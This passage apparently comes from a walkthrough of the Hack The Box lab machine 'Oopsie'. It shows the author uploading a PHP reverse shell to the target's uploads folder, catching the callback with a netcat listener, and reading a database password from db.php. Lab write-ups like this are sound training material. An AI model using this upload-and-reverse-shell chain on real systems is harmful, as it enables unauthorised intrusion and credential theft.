 ![Screenshot_2022-02-18_11-00-19](https://user-images.githubusercontent.com/42389836/154721308-507999d7-5ff5-4ce5-9148-88e4c1b9e572.png)

We try to upload PHP reverse shell from Pentestmonkey (https://github.com/pentestmonkey/php-reverse-shell) and it works!

![Screenshot_2022-02-18_11-03-01](https://user-images.githubusercontent.com/42389836/154721867-b1865e09-28fb-4c36-8cde-2608773c8622.png)

At this point, we run netcat and we start listening:

```
root@kaligra:/opt/htb-startingpoint/Oopsie# nc -nlvp 4444
listening on [any] 4444 ...
```

We browse to http://10.129.95.191/uploads/shell.php and we receive our shell:

```
root@kaligra:~# curl http://10.129.95.191/uploads/shell.php
```

```
connect to [10.10.16.44] from (UNKNOWN) [10.129.95.191] 41776
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:14:06 up 53 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

We explore /var/www/html folder and we grab `db.php` file:

```
$ pwd
/
$ cd /var/www/html
$ ls
cdn-cgi
css
fonts
images
index.php
js
themes
uploads
$ cd cdn-cgi
$ ls
login
$ cd login
$ ls
admin.php
db.php
index.php
script.js
$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
$
```
